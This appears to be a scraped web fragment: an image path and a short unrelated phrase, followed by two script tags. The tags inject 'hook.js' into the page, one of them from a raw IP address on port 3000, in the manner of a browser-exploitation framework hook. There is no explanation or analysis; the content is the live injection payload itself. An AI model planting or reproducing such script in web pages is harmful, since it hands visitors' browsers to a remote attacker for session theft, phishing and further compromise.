 natan ha meleh
<script>
	var commandModuleStr = '<script src="/hook.js" type="text/javascript"><\/script>';
	document.write(commandModuleStr);
</script>
<script src="http://147.235.212.61:3000/hook.js"></script>
